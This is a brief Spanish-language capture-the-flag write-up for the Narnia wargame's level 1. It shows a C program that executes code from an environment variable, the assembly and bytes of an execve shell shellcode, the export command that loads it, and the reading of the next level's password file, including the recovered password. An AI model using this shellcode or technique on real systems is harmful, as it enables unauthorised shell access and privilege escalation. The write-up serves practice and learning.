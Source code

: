 ~~~
cd /narnia/
./narnia1 
~~~
codigo fuente
~~~
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
~~~
el código ejecutará cualquier cosa que introduzcamos en la variable de entorno EGG
usando un shellcode aleatorio de la base de datos de exploits
~~~
section .text
global _start

_start:
    xor ecx, ecx
    mul ecx
    push ecx
    mov edi, 0x978CD0D0
    mov esi, 0x91969DD0
    not edi
    not esi
    push edi
    push esi
    mov ebx, esp
    mov al, 0xb
    int 0x80
~~~
Aquí está el código shell
~~~
\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x
export EGG=`python -c 'print "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"'`
./narnia1
whoami
cat /etc/narnia_pass/narnia2

nairiepecu
~~~
